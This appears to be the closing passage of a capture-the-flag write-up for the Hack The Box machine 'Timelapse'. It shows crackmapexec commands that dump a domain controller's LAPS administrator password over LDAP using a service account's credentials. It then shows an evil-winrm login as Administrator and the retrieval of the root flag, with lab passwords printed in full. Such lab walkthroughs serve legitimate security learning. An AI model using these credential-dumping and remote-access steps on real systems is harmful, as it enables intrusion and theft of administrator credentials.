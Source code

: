 {{< admonition tip "LAPS" >}}
LAPS simplifies password management while helping customers implement recommended defenses against cyberattacks. In particular, the solution mitigates the risk of lateral escalation that results when customers use the same administrative local account and password combination on their computers. LAPS stores the password for each computer’s local administrator account in Active Directory, secured in a confidential attribute in the computer’s corresponding Active Directory object.
{{< /admonition >}}

Source: https://www.hackingarticles.in/credential-dumpinglaps/

Looking further on the same [article](https://www.hackingarticles.in/credential-dumpinglaps/), there are a bunch of methods to dump ```Administrator``` password. 

I used ```crackmapexec``` to dump the ```Administrator``` password.

```bash
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ crackmapexec ldap 10.10.11.152 -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV' –kdcHost 10.10.11.152 -M laps
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.152    389    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
LAPS        10.10.11.152    389    DC01             [*] Getting LAPS Passwords
LAPS        10.10.11.152    389    DC01             Computer: DC01$                Password: 8qRr)lFd9+fHLk47l(N.v%tj
                                                                    
```

Now login to ```Administrator``` using ```evil-winrm```.

```
┌──(saad㉿ssaadakhtarr)-[~/…/hackthebox/machines/timelapse/writeup]
└─$ evil-winrm -S -i 10.10.11.152 -u Administrator -p '8qRr)lFd9+fHLk47l(N.v%tj'

Evil-WinRM shell v3.3

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
timelapse\administrator
```

## root.txt

Usually the ```root.txt``` is located at ```C:\Users\Administrator\Desktop\``` for windows machines but for this machine it is located at ```C:\Users\TRX\Desktop```.

```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> Get-ChildItem -Path C:\ -Filter root.txt -Recurse -ErrorAction SilentlyContinue -Force

    Directory: C:\Users\TRX\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        8/18/2022   8:29 AM             34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat C:\Users\TRX\Desktop\root.txt
e******************************4
*Evil-WinRM* PS C:\Users\Administrator\Desktop> 

```

**Thanks for reading!**
